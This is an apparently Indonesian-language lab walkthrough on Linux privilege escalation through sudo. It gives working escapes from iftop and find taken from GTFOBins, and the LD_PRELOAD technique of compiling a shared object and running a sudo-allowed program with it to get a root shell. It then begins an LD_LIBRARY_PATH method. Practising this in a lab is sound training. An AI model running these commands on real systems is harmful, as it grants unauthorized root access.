 selanjutnya kita dapat mencari payload untuk privesc di [gtfobins](https://gtfobins.github.io/).

1. kita dapat menggunakannya di iftop dengan 

```shell
sudo iftop

# ketika sudah masuk iftop, kita dapat escape dengan inject command
!/bin/bash
```

2. kita dapat menggunakan find dengan

```shell
sudo find . -exec /bin/sh \; -quit
```

dan masih banyak lagi.

# Task 7 : Sudo - Environment Variables

sudo bisa dikonfigurasi untuk dapat inherit beberapa environment variabel dari user environment.

cara cek `sudo -l`, dan cari bagian `env_keep`.
nantinya akan menghasilkan seperti berikut

```shell
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
...
```

ada 2 yang di inherit dari user environment, yaitu `LD_PRELOAD` dan `LD_LIBRARY_PATH`. 

- `LD_PRELOAD` akan load sebuah program sebelum apapun ketika program berjalan
- `LD_LIBRARY_PATH` provide dir list dimana shared library merupakan hal utama yang dicari duluan

**Cara exploitasinya**:

1. buat shared object menggunakan code yang terletak pada target mesin ini di `/home/user/tools/sudo/preload.c`

```shell
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

2. run program yang diperbolehkan dirun via sudo (ada hasilnya ketika `sudo -l`), saat sedang setting `LD_PRELOAD` environment variable ke full path dari shared objek yang baru.

```shell
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

3. selanjutnya nanti root shell akan terspwan.


**Cara lainnya**:

1. jalankan `ldd` pada service apache2 untuk tau shared library mana yang digunakan oleh program

```shell
ldd /usr/sbin/apache2
```
